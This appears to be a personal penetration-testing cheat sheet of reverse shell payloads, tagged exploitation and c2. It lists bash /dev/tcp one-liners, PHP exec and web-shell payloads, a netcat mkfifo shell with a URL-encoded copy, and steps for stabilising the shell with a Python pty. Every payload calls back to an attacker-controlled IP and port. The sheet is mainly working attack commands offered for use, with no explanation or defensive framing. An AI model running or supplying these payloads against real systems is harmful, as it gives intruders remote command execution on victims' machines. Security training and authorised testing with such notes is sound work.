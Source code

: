 ```yaml
---
id: reverseshell
aliases: []
tags:
  - exploitation
  - shell
  - c2
---
```



## Bash
`bash -i > /dev/tcp/192.168.49.150/8080 0>&1
	bash -i >& /dev/tcp/192.168.49.150/8080 0>&1`
	
## System:
`system("bash -c \"bash -i >& /dev/tcp/192.168.45.175/445 0>&1\"")`

## Php:
`exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.49.150/8080 0>&1'")`
>**Web:** 
> `<?php exec(\”/bin/bash -c ‘bash -i > /dev/tcp/YOUR_IP/PORT 0>&1’\”); ?>` 
## Python (IppSec method) / stabilize the shell:
> Still in the victim machine
`$ python3 -c 'import pty; pty.spawn("/bin/bash")`
>` Ctrl + Z `  to background the process
`$ stty raw -echo; fg`
(export TERM=xterm)

### If python not available:
`script /dev/null -c /bin/bash` --to be tested
	
### Obfusccated:
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.229 1234 >/tmp/f`
`rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.45.229%201234%20%3E%2Ftmp%2Ff`  --encoded


```
